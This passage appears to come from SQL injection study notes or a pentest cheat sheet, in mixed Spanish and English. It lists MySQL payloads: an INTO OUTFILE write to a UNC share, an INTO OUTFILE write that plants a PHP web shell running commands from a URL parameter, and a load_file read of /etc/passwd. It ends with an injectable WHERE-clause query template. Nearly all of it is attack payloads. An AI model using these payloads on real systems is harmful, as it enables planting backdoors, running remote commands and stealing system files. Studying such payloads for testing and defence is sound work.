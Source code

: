 ```sql
select 'test' into OUTFILE '\\\\DOMAIN\a'
```

### Special Functions

1. Insert Files

```sql
select '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/cmd.php'
```

2. Read Files

```sql
select load_file('/etc/passwd')
```

## Inyección SQL en cláusulas WHERE || injection vulnerability in WHERE clause allowing retrieval of hidden data

- Query SQL

```sql
SELECT * FROM products WHERE category = '$INPUT$' AND released = 1
```

- Explotation

![](/img2/Pasted%20image%2020250707130629.png)
